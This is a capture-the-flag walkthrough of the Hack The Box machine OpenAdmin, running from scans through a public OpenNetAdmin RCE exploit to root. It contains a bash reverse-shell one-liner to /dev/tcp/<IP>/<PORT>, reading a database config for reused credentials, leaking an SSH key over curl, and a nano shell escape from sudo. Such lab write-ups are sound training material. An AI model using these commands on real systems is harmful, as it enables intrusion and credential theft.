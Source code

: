 ```yaml
---
title: OpenAdmin
layout: post
author: Bit Criminals Team
date: 2021-07-27 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://app.hackthebox.eu/machine/OpenAdmin
---
```


## STEP_1 ==> NMAP SCAN

![](/images/whitefang/OpenAdmin_nmap.png) 


## STEP_2 ==> GOBUSTER

![](/images/whitefang/OpenAdmin_gobuster.png) 

  
## STEP_3 ==> OPEN /music

>http://10.10.10.171/music

![](/images/whitefang/OpenAdmin_music.png) 

![](/images/whitefang/OpenAdmin_ona.png) 


## STEP_4 ==> SEARCHING THE EXPLOIT

![](/images/whitefang/OpenAdmin_searchsploit.png)

>https://github.com/amriunix/ona-rce


 ## STEP_5 ==> GETTING SHELL

```bash
python3 ona-rce.py check http://10.10.10.171/ona/
```

![](/images/whitefang/OpenAdmin_revshell.png)

Sending reverse shell on our IP:
```bash
/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```
![](/images/whitefang/OpenAdmin_listen.png)


## STEP_6 ==> GETTING USER PASSWORD

Opening /var/www/html/ona/local/config//database_settings.inc.php

![](/images/whitefang/OpenAdmin_password.png)

Trying same password to ssh login on user - jimmy


## STEP_7 ==> GETTING RSA KEY

Opening  /var/www/internal/main.php

![](/images/whitefang/OpenAdmin_jimmy.png)

Getting RSA key

```bash
curl http://127.0.0.1:52846/main.php
```
![](/images/whitefang/OpenAdmin_rsa.png)


## STEP_8 ==> CRACKING RSA KEY

![](/images/whitefang/OpenAdmin_rsacrack.png)


## STEP_9 ==> SSH LOGIN (joanna)

![](/images/whitefang/OpenAdmin_vulroot.png)


## STEP_10 ==> ROOT
  
we can access /bin/nano as root without password.
we can open the /opt/priv file using the nano to escalate to the user to root.
```bash
reset; sh 1>&0 2>&0
```
  
![](/images/whitefang/OpenAdmin_nano.png)

![](/images/whitefang/OpenAdmin_flag.png)
